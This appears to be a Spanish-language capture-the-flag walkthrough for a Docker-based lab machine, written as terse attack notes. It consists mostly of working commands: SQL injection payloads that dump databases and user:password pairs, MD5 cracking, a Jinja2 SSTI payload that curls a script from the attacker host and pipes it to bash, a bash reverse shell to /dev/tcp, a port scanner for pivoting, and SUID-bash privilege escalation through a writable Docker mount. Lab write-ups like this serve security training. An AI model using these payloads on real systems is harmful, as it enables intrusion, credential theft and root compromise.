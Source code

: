 https://www.youtube.com/watch?v=r3WMeRtwmFc&t=6499s
#docker
# Fase de reconocimiento
Puerto:
80
## Fuzzing
```
nmap --script http-enum -p80 <ip>
```

# Fase de ataque
## SQLI
El Login es vulnerable a SQLI
```
' or 1=1-- -
```
![[Pasted image 20240520194757.png]]
Buscamos la cantidad de columnas, hasta encontrar las exactas
```
' order by 4-- -
```
Seleccionamos todas las columnas y le ponemos un nombre para encontrarlas
```
' union select 1,2,3,4-- -
```
Ver la base de datos en uso
```
' union select 1,2,3,database()-- -
```
Ver todas las bases de datos
```
' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- -
```
Ver tablas
```
' union select 1,2,3,table_name from information_schema.tables-- -
```
Ver columnas
```
' union select 1,2,3,column_name from information_schema.columns where table_schema='<BBDD>' and table_name='<tabla>'-- -
```
Ver contenido de las columnas
```
' union select 1,2,3,group_concat(user,':',pass) from '<tabla>'-- -
```
Hay contraseña hasheada y usuario

Identificar Hash
```
hash-identifier
```
Crackear hash
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
```
## SSTI Server Side Template Injection

Hay un sitio en la web donde puedes cambiar tu nombre
Si es vulnerable a SSTI al poner 
```
{{7*7}}
```
y sale 49 es vulnerable
![[Pasted image 20240520200349.png]]
![[Pasted image 20240520200514.png]]
Buscamos un Payload one line para inyectar y conseguir acceso a la maquina
https://github.com/swisskyrepo/PayloadsAllTheThings
### RCE
1. Creamos el reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
```
2. Nos ponemos en escucha
```
nc -nlvp 443
```
Ponemso la shell en puerto 80
```
python3 -m http.server 80
```
3. Lanzamos el RCE en la web
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://<ipa>/shell.html | bash').read() }}
```
![[Pasted image 20240520201506.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
```
stty rows 44 columns 184
```
Parece que estamos dentro de un Docker
# Privilege Escalation
## Docker
Ya somos root
## Pivoting
Buscamos puertos abiertos con un script en bash
``` bash
#!/bin/bash
function ctrl_c(){
		echo -e "\n\n[!] Saliendo\n"
		tput cnorm; exit 1
}
trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
		timeout 1 bash -x "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Puerto abierto" &
done; wait
tput cnorm
```
Movemos el script en bash a el docker victima
1. Comprimios en base64
```
base64 -w 0 scanner.sh
```
2. Lo copiamos
```
echo <cadenabase64> | base64 -d > scanner.sh
```
Ejecutamos en busca de puertos abiertos
Nos intentamos conectar con SSH a la maquina victima reutilizando contraseña de la BBDD

[-] ==pwned!==
## Privilege Escalation with Docker mount
Como el directorio /home/user esta montado en el docker donde somos root y tenemos permiso de escritura en la montura.
1. Copiamos el /bin/bash en este directorio host
```
cp /bin/bash /home/user
```
2. Nos volvemos al docker
3. Cambiamos los permisos
```
chown root:root bash
```
4. Asignamos un privilegio SUID
```
chmod 4755 bash
```
5. Volvemos a la maquina host
6. Ejecutamos la bash (Los permisos SUID se habrán cambiado)
```
./bash -p
```
[+] ==pwned!==